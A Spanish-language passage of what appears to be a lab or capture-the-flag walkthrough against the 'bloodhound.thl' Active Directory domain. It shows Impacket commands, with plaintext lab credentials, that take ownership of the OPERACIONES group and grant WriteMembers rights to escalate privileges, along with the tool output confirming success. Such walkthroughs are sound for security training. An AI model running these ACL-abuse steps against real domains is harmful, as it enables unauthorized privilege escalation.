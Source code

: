 

------------------------------------------------------------------------


### PATRICIA.BROWN se convierta en la propietaria del grupo OPERACIONES.

Esto es crítico porque ahora podrá modificar permisos del grupo y abusar de ellos para escalar privilegios.



impacket-owneredit -action write -new-owner 'patricia.brown' -target 'OPERACIONES' 'bloodhound.thl/patricia.brown:Patito12345'



impacket-owneredit -action write -new-owner 'patricia.brown' -target 'CN=operaciones,OU=operaciones,DC=bloodhound,DC=thl' 'bloodhound.thl/patricia.brown:Patito12345'



Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 
[*] Current owner information below
[*] - SID: S-1-5-21-3580157585-956322742-780763674-1114
[*] - sAMAccountName: patricia.brown
[*] - distinguishedName: CN=Patricia Brown,CN=Users,DC=bloodhound,DC=thl
[*] OwnerSid modified successfully!





### Este comando modifica la ACL del grupo OPERACIONES y le da a  patricia.brown el permiso de agregar o quitar miembros del grupo.


impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'patricia.brown' -target-dn 'CN=OPERACIONES,OU=OPERACIONES,DC=bloodhound,DC=thl'  'bloodhound.thl/patricia.brown:Patito12345'


==== impacket-dacledit -action write -rights WriteMembers -principal 'PATRICIA.BROWN' -target-dn 'CN=OPERACIONES,OU=OPERACIONES,DC=bloodhound,DC=thl' 'bloodhound.thl/PATRICIA.BROWN:Patito12345'

==== impacket-dacledit -action write -rights WriteMembers -principal 'patricia.brown'  -target-dn 'CN=OPERACIONES,OU=OPERACIONES,DC=BLOODHOUND,DC=THL'  'bloodhound.thl/PATRICIA.BROWN:Abc123456@'


Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250905-195515.bak
[*] DACL modified successfully!



# A partir de este momento, PATRICIA.BROWN puede meterse a sí misma (o a cualquier otro usuario) dentro del grupo OPERACIONES.

